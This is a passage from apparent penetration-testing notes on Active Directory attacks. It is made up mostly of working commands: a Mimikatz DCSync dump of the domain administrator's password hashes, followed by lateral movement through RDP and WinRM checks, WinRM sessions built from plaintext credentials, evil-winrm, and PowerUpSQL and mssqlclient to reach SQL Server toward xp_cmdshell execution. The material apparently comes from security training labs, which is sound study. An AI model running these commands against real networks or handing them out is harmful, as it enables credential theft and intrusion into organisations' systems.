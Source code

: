 ```PowerShell
```
This attack can also be done with `Mimikatz`
```PowerShell
# Get a shell in the context of the admin user
runas /netonly /user:<domain>\<user> powershell

# Dump hashes
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:<domain> /user:<domain>\administrator

```
# Lateral Movement
See also [[Tunnels and Portforwarding]]

Here's some common options for lateral movement:
1. RDP
2. Windows Remote Management
3. SQL Server
```PowerShell
# Check RDP privs for a machine
Get-NetLocalGroupMember -ComputerName <machine> -GroupName "Remote Desktop Users"
# Use mstsc.exe to RDP

# Check WinRM Rights
Get-NetLocalGroupMember -ComputerName <machine> -GroupName "Remote Management Users"

# Establish WinRM Session
$password = ConvertTo-SecureString "<pass>" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("<domain>\<user>", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

# From Linux, use evil-winrm
evil-winrm -i <host> -u <user>

# Finding MSSQL instances
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain

# Connect to SQL instance
Get-SQLQuery -Verbose -Instance "IP,port" -username "<domain>\<user>" -password "<pass>" -query 'Select @@version'

# On Linux
mssqlclient.py <domain>/<user>@<IP> -windows-auth

# From here we can use enable_xp_cmdshell to allow for remote access
```
[`PowerUpSQL cheatsheet`](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
[`xp_cmdshell stored procedure`](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15)
